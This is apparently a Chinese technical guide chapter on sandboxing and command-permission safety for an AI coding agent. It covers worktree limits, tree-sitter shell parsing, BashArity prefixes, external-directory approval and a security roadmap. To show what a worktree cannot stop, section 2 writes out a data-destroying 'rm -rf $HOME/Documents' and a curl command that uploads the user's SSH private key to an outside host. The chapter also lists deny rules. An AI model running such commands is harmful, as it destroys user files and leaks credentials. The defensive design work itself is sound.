

# 17 · 工作区、沙箱与命令安全深度

> 读完本章，你应该能回答：git worktree 为什么不是 OS jail？  
> Legacy 的 tree-sitter、BashArity、`external_directory` 各解决什么问题？pycode 应先做 HITL 还是先做 AST？

基础权限三态见 [06](./06-权限-人机确认与命令安全.md)，工具系统见 [05](./05-工具-MCP-与Skill.md)，插件与输出边界见 [13](./13-Hooks与插件扩展.md)、[14](./14-结构化工具结果与输出边界.md)。

---

## 1. 这一章要解决什么问题？

“Agent 在沙箱里运行”很容易让人产生错误安全感。这个词在工程中可能指：

- 一份独立的 git worktree；
- 一个 JavaScript 解释器的值隔离；
- CI job 使用的 Linux 容器；
- 真正限制文件、网络、进程和系统调用的 OS jail。

它们不是同一安全等级。OpenCode 当前默认的 bash 明确以**宿主机当前用户**的文件、进程和网络权限运行。工作目录只是默认 `cwd`，不是访问边界。

因此本章讨论的是“纵深防御”，不是宣称某一层可以单独保证安全。

---

## 2. Worktree 解决并行，不解决越权

git worktree 可以为同一仓库创建多个工作目录：

```text
repo/.git
  ├─ 主工作区
  ├─ worktree-A（Agent A）
  └─ worktree-B（Agent B）
```

它的价值是：

- 多 Agent 各自在独立目录改文件；
- 分支与未提交改动少互相污染；
- 出错后更容易丢弃某个工作区。

但 shell 进程仍可使用绝对路径或 `..`：

```bash
rm -rf "$HOME/Documents"
curl https://example.com/upload --data-binary @"$HOME/.ssh/id_rsa"
```

只要宿主用户有权限，这些命令就可能成功。worktree 没有系统调用过滤、网络隔离、用户隔离或挂载隔离。



结论：**worktree 是版本控制与协作隔离，不是安全沙箱。**

---

## 3. 当前安全栈：规则、HITL、解析与输出控制

OpenCode 的实际安全更接近多层组合：

| 层 | 作用 | 不能解决什么 |
|----|------|--------------|
| 权限规则 | allow / deny / ask | 规则没覆盖的语义 |
| HITL | 危险动作让人确认 | 用户误批、审批疲劳 |
| Shell AST | 拆出多条真实命令与路径参数 | 动态脚本、解释器内部行为 |
| `external_directory` | 项目外路径另行审批 | 未识别出的动态路径 |
| BashArity | 生成较合理的 always 前缀 | 判断命令本身是否安全 |
| 超时 / 输出上限 | 防挂死与上下文爆炸 | 文件、网络副作用 |
| OS jail（可选） | 真正限制文件/网络/进程 | 仍需正确策略和镜像 |

任何一层都不是银弹。尤其不能把“有权限弹窗”写成“命令已经被容器隔离”。

---

## 4. Legacy 深度：tree-sitter + BashArity

### 4.1 tree-sitter 把字符串拆成命令树

Legacy `packages/opencode/src/tool/shell.ts` 为 Bash 和 PowerShell 延迟加载 tree-sitter 语法：

```bash
cd packages/opencode && npm test && cp report.txt /tmp/report.txt
```

解析后可分别看到 `cd`、`npm test`、`cp`，而不是只匹配整串文字。实现会：

- 遍历 AST 中的 command 节点；
- 提取每条命令的原始片段作为权限 pattern；
- 对 `rm/cp/mv/mkdir/cat/chmod...` 等文件命令检查路径参数；
- 跟踪外部工作目录；
- 对动态变量、命令替换和通配符采取保守处理。

这比纯字符串前缀可靠，但并不等于完全理解 shell。`python -c`、下载后执行、复杂变量展开、脚本文件内部命令仍可能逃出静态分析视野。

### 4.2 BashArity 决定“总是允许”记多长

用户批准：

```bash
npm run test -- auth
```

若只记 `npm *`，以后 `npm publish` 也可能被放行，太宽；若记完整参数，每次换测试名都要重问，太窄。

`BashArity.prefix(tokens)` 用命令族表决定可理解前缀：

| 输入 | 典型前缀 |
|------|----------|
| `git status --short` | `git status` |
| `npm run test -- auth` | `npm run test` |
| `docker compose up api` | `docker compose up` |
| `rm -rf dist` | `rm` |

Legacy 再给前缀加 ` *` 作为 always pattern。最长已知命令前缀优先；不认识的命令默认只取第一个 token。

BashArity 只是审批体验的归一化器，不是危险命令分类器。`rm *` 是否允许仍由权限规则和用户决定。

---

## 5. `external_directory`：项目外访问要另设门禁

Legacy Shell 会对已知文件命令的参数做路径解析。若解析后的目录不在当前实例的 `directory` 或 git `worktree` 内，就先请求：

```text
permission = external_directory
pattern    = /外部目录/*
```

然后再请求具体 shell 命令权限。这是两道不同的门：

```text
“能否访问项目外目录？”
            +
“能否执行这条 bash 命令？”
```

保守配置示例：

```jsonc
{
  "permission": {
    "external_directory": {
      "~/shared-readonly/*": "ask",
      "*": "deny"
    },
    "bash": {
      "git status*": "allow",
      "npm test*": "allow",
      "rm *": "deny",
      "*": "ask"
    }
  }
}
```

V2 Core 当前状态要更谨慎地描述：

- 外部 `workdir` 会通过 Location mutation 触发真实的 `external_directory` assert；
- 命令参数中的绝对路径目前主要靠 token 扫描产生**建议性 warning**；
- 源码 TODO 明确要求以后迁入 parser-based detection；
- 因而不能宣称 V2 已对命令内所有外部路径做硬拦截。

动态路径始终困难：

```bash
TARGET="$HOME/secret"; cat "$TARGET"
```

静态分析未必能还原最终路径。真正要求强隔离时，必须让 OS 层限制可见目录。

---

## 6. 容器真相：`packages/containers` 服务 CI，不是 Agent jail

仓库里的 `packages/containers/README.md` 写得很明确：这些镜像用于给 GitHub Actions Linux job 预装 Bun、Node、Rust、Tauri 依赖，加快 CI。

```yaml
jobs:
  build-cli:
    runs-on: ubuntu-latest
    container:
      image: ghcr.io/anomalyco/build/bun-node:24.04
```

这不表示本地 Agent 的每条 bash 都自动进入该容器。它们是 **CI 构建镜像**，不是 Agent 执行沙箱。

即使未来加入容器执行，也要继续回答：

- 挂载了哪些宿主目录，是否只读；
- 是否共享 Docker socket；
- 是否允许网络；
- 使用 root 还是非特权用户；
- CPU、内存、进程数、超时如何限制；
- 密钥如何注入与撤销；
- macOS / Windows 怎样提供等价能力。

尤其是挂载宿主 Docker socket 的容器通常可间接控制宿主，不能称为强隔离。

---

## 7. pycode 安全路线图：P0 HITL → P1 AST

不要一开始就承诺“完美沙箱”。更可验证的路线是：

### P0：先建立硬闸门

1. Permission allow / deny / ask，最后匹配胜出；
2. once / always / reject + 纠正反馈；
3. 默认 bash、写文件、外部目录为 ask；
4. CI 无头模式禁止悬空 ask，采用明确白名单；
5. 超时、取消、输出捕获上限与审计；
6. 文档明确：bash 使用宿主用户权限。

```yaml
permissions:
  bash:
    "git status*": allow
    "pytest*": allow
    "rm *": deny
    "*": ask
  external_directory:
    "*": ask

headless:
  unresolved_ask: deny
```

P0 的成功标准：每个副作用叶子都无法绕过权限服务；deny 不执行；ask 必须收到回复；无头运行不会静默放行。

### P1：增加命令语义深度

1. 用 tree-sitter 解析 Bash，Windows 再补 PowerShell / cmd；
2. 每个 command 节点分别求权限；
3. 对已知文件命令解析路径并触发 `external_directory`；
4. 引入 BashArity 类似表生成最小 always 前缀；
5. 动态路径、命令替换、解析失败采取保守 ask；
6. 加 doom-loop 检测与针对绕过样例的测试。

P1 的成功标准：`cmd1 && cmd2` 不会只审批第一条；已知外部路径会单独问；always 不会从 `npm run test` 扩大成全部 `npm`。

### P2（按产品需要）：真正隔离执行器

可选容器、轻量 VM 或 OS sandbox profile，把文件、网络、进程能力做成显式策略。它是增强层，不替代 P0/P1 的意图审查。

---

## 8. 源码索引、威胁检查与延伸阅读

| 主题 | 源码位置 |
|------|----------|
| Legacy tree-sitter Shell 扫描 | `packages/opencode/src/tool/shell.ts` |
| BashArity | `packages/opencode/src/permission/arity.ts` |
| Legacy Permission | `packages/opencode/src/permission/index.ts` |
| 实例目录 / worktree 边界 | `packages/opencode/src/project/instance-context.ts` |
| 项目 sandboxes 记录 | `packages/opencode/src/project/project.ts` |
| V2 最小 Bash 与明确 TODO | `packages/core/src/tool/bash.ts` |
| V2 Permission | `packages/core/src/permission.ts` |
| CI 镜像说明 | `packages/containers/README.md` |

评审安全设计时，至少用这些问题反问：

1. 命令以哪个 OS 用户运行？
2. worktree 外的 `$HOME` 能否访问？
3. 网络默认允许吗？
4. `curl | bash`、`python -c`、脚本文件内部命令怎样处理？
5. 解析失败是放行、询问还是拒绝？
6. always 规则会不会过宽？
7. 插件 `shell.env` 会不会注入或泄露密钥？
8. 大输出和后台进程如何终止与审计？

相关章节：

- [05 · 工具、MCP 与 Skill](./05-工具-MCP-与Skill.md)
- [06 · 权限、人机确认与命令安全](./06-权限-人机确认与命令安全.md)
- [13 · Hooks 与插件扩展](./13-Hooks与插件扩展.md)
- [14 · 结构化工具结果与输出边界](./14-结构化工具结果与输出边界.md)
